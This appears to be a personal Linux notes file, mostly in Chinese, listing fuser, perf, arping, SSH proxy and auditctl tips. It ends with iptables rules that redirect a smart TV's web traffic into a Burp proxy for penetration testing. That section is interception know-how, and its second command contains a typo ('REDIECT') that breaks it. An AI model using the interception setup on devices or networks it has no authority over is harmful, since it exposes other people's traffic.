  fuser -n udp 2007

** 查询文件系统使用者
针对某文件系统的使用者，我们可以使用-m参数进行查询，对于以下分区的系统：
#+begin_example
 # df
 Filesystem           1K-blocks      Used     Available Use%  Mounted on
 /dev/sda2           15735128   10218084   5517044  65%  /
 udev                  4091824        168    4091656   1%  /dev
 /dev/sda3           47550928   43836764   3714164  93%  /home1
 /dev/sdb2           70627600   64344256   6283344  92%  /home2
#+end_example
执行以下查询命令：
#+begin_example
 # fuser -m /home1
 /home1:               2703ce
#+end_example
可以看到/dev/sda3分区的使用者为2703对应的进程，执行fuser –m /dev/sda3、fuser –m /home1/test将得到相同的结果。
** 使用fuser关闭进程
除了可以使用fuser进行查询之外，fuser还可以向进程发送信号，让进程退出：
#+begin_example
# fuser -v -k socket
             USER    PID   ACCESS   COMMAND
socket:      root  11861    ...e.    socket
 
[1]+  Killed                  ./socket
#+end_example
-k选项表示向使用socket文件的相关进程发送SIGKILL信号。除了发送SIGKILL信号之外，fuser还可以发送以下信号：
#+begin_example
 # fuser -l /home
 HUP INT QUIT ILL TRAP ABRT IOT BUS FPE KILL USR1 SEGV USR2 PIPE ALRM TERM
 STKFLT CHLD CONT STOP TSTP TTIN TTOU URG XCPU XFSZ VTALRM PROF WINCH IO PWR SYS
 UNUSED
#+end_example 

另外，加上-i选项，在KILL进程时，需要人为地进行确认：
#+begin_example
 # fuser -v -k -i socket
             USER    PID   ACCESS   COMMAND
 socket:     root   11861  ...e.     socket
 Kill process 11861 ?(y/N)
#+end_example
* perf
 perf top -p pid
 可以看到各个函数cpu占用情况

* stdbuf 命令
  可以关闭buffer
* 检测ip地址冲突
How to: Detect Duplicate IP Address With arping command under Linux

by Nix Craft on November 23, 2007 · 7 comments· LAST UPDATED November 23, 2007

in CentOS, Debian / Ubuntu, Hardware

Q. I run quite large network with different subnets. I'd like to know how can I find out duplicate IP address under Linux / UNIX?

A. You can use arpping command. The arping utility performs an action similar to ping command, but at the Ethernet layer. You can send ARP REQUEST to a neighbor host / computers.
Task: Send ARP request

Let us find out reachability of an IP on the local Ethernet with arping i.e send ARP request 192.168.1.1:
$ sudo arping -I eth0 -c 3 192.168.1.1
Output:

ARPING 192.168.1.1 from 192.168.1.106 ra0
Unicast reply from 192.168.1.1 [00:18:39:6A:C6:8B]  2.232ms
Unicast reply from 192.168.1.1 [00:18:39:6A:C6:8B]  1.952ms
Sent 3 probes (1 broadcast(s))
Received 3 response(s)

Where,

    -I eth0 : Specify network interface i.e. name of network device where to send ARP REQUEST packets. This option is required.
    -c 3 : Stop after sending 3 ARP REQUEST packets

Task: Find duplicate IP

The -D option specifies duplicate address detection mode (DAD). It returns exit status 0, if DAD succeeded i.e. no replies are received.
$ sudo arping -D -I eth0 -c 2 192.168.1.1
If 192.168.1.1 duplicated you should see zero exit status:
$ echo $?
Always use following syntax for duplicate address detection with arping:
$ sudo arping -D -I <interface-name> -c 2 <IP-ADDRESS-TO-TEST>
$ echo $?
* 通过ssh代理上网
  ssh -TfnN -D 7070 root@10.18.207.102

  然后在浏览器中设置SOCKS代理为127.0.0.1 7070
* SSH 端口转发
http://linux-wiki.cn/wiki/zh-hans/SSH%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91%EF%BC%88%E9%9A%A7%E9%81%93%EF%BC%89
* 谁杀死了我的进程 who kill my process
auditctl -a exit,always -F arch=b64 -S kill
进程被杀后，执行如下查看
ausearch -sc kill

完毕后，删除
auditctl -d exit,always -F arch=b64 -S kill
* iptables intercept received packet with proxy and then forward to destination
  使用Burp对智能电视进行渗透测试，方法如下：

  通过iptables 和代理截获packet，
  要使用Burp 做代理，需要设置Burp的Invisible Proxy support配置，

  对于HTTP 80 和 HTTPS 443执行下面命令：
  iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-ports 8080
  iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIECT --to-ports 8443

 数据流如下：
  TV-->eth0-->proxy-->internet
